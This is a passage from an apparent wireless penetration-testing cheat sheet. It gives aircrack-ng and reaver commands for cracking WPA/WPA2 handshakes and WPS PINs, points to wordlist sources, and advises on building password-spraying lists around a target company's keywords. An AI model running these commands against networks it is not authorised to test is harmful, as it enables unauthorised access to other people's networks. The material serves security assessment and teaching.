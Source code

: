 ```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv -i wlan1 -c 8 -b FF:FF:FF:FF:FF:FF -e essid --pixie-dust
```

Crack a WPS PIN with some delay between attempts:

```fundamental
reaver -vv -i wlan1 -c 8 -b FF:FF:FF:FF:FF:FF -e essid --pixie-dust -N -L -d 5 -r 3:15 -T 0.5
```

## 4. Wordlists

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

### 4.1 Useful Websites

[weakpass.com/wordlist](https://weakpass.com/wordlist)

### SecLists

Download a useful collection of multiple types of lists for security assessments.

Installation:

```fundamental
apt-get install seclists
```

Lists will be stored at `/usr/share/seclists/`.

Or, download the collection manually from [here](https://github.com/danielmiessler/SecLists/releases).

### Password Spraying

Find out how to generate a good password spraying wordlist from my other [project](https://github.com/ivan-sincek/wordlist-extender), but first you will need a few good keywords that describe your target.

Such keywords can be a company name and abbreviation or keywords that describe your target's services, products, etc.

After you generate the wordlist, use it with tool such as `aircrack-ng` to crack WPA/WPA2 handshakes.

If strong password policy is enforced, passwords usually start with one capitalized word followed by few digits and one special character at the end (e.g. Password123!).
